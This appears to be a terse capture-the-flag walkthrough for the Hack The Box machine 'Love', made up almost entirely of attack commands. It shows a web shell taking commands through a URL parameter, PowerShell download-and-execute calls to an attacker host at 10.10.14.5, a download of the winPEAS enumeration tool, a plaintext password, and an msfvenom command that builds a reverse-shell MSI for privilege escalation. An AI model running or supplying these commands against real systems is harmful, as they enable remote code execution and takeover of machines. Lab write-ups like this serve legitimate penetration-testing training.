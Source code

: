 ```
rpcdump.py 10.10.10.239
```

```sh
staging.love.htb
```

```
@LoveIsInTheAir!!!!
```

```
http://love.htb/images/shell123.php?cmd=powershell -c IEX(New-Object Net.WebClient).DownloadFile('http://10.10.14.5/nishang.ps1', 'shell123.ps1')

http://love.htb/images/shell123.php?cmd=.\shell123.exe

powershell.exe -ExecutionPolicy Bypass -NonInteractive -File shell123.exe
```


```
powershell wget http://10.10.14.5/winPEASx86_ofs.exe -outfile wp.exe
```

```
msfvenom -p windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.6 LPORT=443 -f msi -o rev.msi
```

## Referensi
- https://www.hackingarticles.in/windows-privilege-escalation-scheduled-task-job-t1573-005/